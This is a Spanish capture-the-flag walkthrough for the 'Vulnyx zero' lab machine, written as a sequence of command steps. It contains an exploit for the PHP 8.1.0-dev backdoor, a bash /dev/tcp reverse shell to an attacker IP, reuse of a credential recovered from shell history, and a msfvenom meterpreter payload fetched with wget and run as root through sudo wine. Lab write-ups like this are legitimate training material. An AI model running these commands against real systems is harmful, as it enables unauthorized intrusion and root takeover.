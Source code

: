 # Vulnyx-zero

### Escaneo de Puertos

```bash
# Nmap scan
nmap -p 22,80,8000 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
•22/tcp   open   ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
•80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
•8080/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
```

Encontramos una página con un solo h1 "Zerodium", posiblemente un usuario.

### Fuzzing

```bash
gobuster dir -u (IP-victima) -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php,.sh
/index.php
```

Fuzzing no nos dio resultados, así que volvemos a nuestros pasos y vemos que nmap encontró "PHP 8.1.0-dev".

```bash
searchsploit PHP 8.1.0-dev
```

Encontramos un exploit:

```bash
searchsploit -m /php/webapps/49933.py
```

Dentro de [exploit-db](https://www.exploit-db.com/exploits/49933), encontramos que al ejecutarlo nos pide una dirección y luego comandos.

```bash
whoami
•root
```

Somos root, pero con pocas opciones. Procederemos a crear una reverseshell hacia nuestra máquina.

Nos ponemos en escucha con Netcat:

```bash
nc -nlvp 443
```

Ejecutamos la reverseshell dentro de la máquina víctima:

```bash
bash -c "bash -i >& /dev/tcp/(IP-atacante)/443 0>&1"
```

Ya estamos dentro como root, pero vemos que somos root dentro del casillero de un Docker.

Hacemos el tratamiento de la TTY para estar más cómodos:

```bash
script /dev/null -c bash
control+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Luego de intentar varias cosas, vemos el historial:

```bash
history
•1  sshpass -p 'L************4' ssh liam@127.0.0.1
```

Ingresamos como liam:

```bash
ssh liam@(IP-victima)
pass: L*************4
```

```bash
sudo -l
• (root) NOPASSWD: /usr/bin/wine
```

Según lo que encontramos, "wine" es un programa para Linux que permite instalar y ejecutar programas para Windows. Crearemos un exploit con msfvenom para Windows, lo ejecutaremos como root y obtendremos una reverseshell.

```bash
msfvenom -l payloads | grep -i windows
•windows/x64/meterpreter/reverse_tcp
```

Creamos el payload ".exe":

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(IP-atacante) LPORT=443 -f exe > reverse.exe
```

Ponemos a escuchar METERPRETER:

```bash
msfconsole
use multi/handler
**meterpreter**
show options
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST (IP-atacante)
set lport 443
```

Ejecutamos METERPRETER y lo dejamos en escucha en segundo plano mientras ejecutamos el payload en la máquina víctima. Subimos el payload mediante un servidor de Python3:

```bash
python3 -m http.server 8000
```

Dentro de la máquina víctima obtenemos el payload:

```bash
wget http://(IP-atacante):8000/reverse.exe
```

Ejecutamos como root el comando mediante "wine":

```bash
sudo /usr/bin/wine reverse.exe
```

Recibimos la reverseshell en nuestra máquina atacante. Para que la consola sea funcional, debemos escribir "shell" o "interactive".

**Recuerden que creamos un payload para Windows, así que ahora toca usar comandos de Windows, tales como dir, type, etc.**

Ya somos root :D
